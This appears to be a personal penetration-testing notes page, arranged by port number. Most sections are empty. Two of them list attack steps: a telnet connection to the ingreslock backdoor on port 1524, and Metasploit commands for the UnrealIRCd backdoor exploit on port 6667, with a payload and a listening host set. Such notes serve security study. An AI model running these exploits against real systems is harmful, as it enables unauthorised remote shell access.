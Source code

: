### 514

### 1099

### 1524
##### ingreslock exploit
```
telnet [ip] 1524
```
![Pasted image 20250611104215](../zzAttachments/Pasted%20image%2020250611104215.png)
### 2049

### 2121

### 3306

### 5432

### 5900

### 6000

### 6667
##### unreal_irc
```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set payload 6
set rhost [IP]
set lhost eth0
```
![Pasted image 20250611095552](../zzAttachments/Pasted%20image%2020250611095552.png)
